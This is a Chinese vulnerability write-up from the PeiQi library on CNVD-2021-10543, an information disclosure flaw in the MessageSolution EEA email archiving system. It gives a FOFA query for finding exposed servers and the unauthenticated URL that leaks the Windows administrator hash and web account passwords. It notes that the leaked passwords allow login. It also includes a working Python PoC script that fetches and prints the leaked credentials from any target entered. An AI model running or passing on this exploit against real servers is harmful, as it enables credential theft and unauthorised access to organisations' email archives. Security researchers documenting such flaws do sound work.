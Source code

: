 ```yaml
---
title: MessageSolution  邮件归档系统EEA 信息泄露漏洞 CNVD-2021-10543
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - MessageSolution
---
```


# MessageSolution  邮件归档系统EEA 信息泄露漏洞 CNVD-2021-10543

## 漏洞描述

MessageSolution企业邮件归档管理系统 EEA是北京易讯思达科技开发有限公司开发的一款邮件归档系统。该系统存在通用WEB信息泄漏，泄露Windows服务器administrator hash与web账号密码

## 漏洞影响

> [!NOTE]
>
> MessageSolution 企业邮件归档管理系统EEA

## FOFA

> [!NOTE]
>
> title="MessageSolution Enterprise Email Archiving (EEA)"

## 漏洞复现

登录页面如下

![](/img/20210924015236442615.png)

 访问如下Url

```
http://xxx.xxx.xxx.xxx/authenticationserverservlet/
```

![](/img/20210924015236634051.png)

使用获得到的密码可以登录系统

![](/img/20210924015236844751.png)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: MessageSolution 企业邮件归档管理系统EEA                         \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')


def POC_1(target_url):
    vuln_url = target_url + "/authenticationserverservlet/"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 200 and "administrator" in response.text:
            print("\033[32m[o] 目标 {} 存在信息泄露 响应为:{}\033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))




if __name__ == "__main__":
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](/img/20210924015237377089.png)

## Goby & POC

> [!NOTE]
>
> MessageSolution  邮件归档系统EEA 信息泄露漏洞 CNVD-2021-10543
>
> Goby & POC 已经更新到 Github中

![](/img/20210924015237796584.png)

## 参考文章

https://mp.weixin.qq.com/s/jehAIIYWrpkLtGvGN-LtFA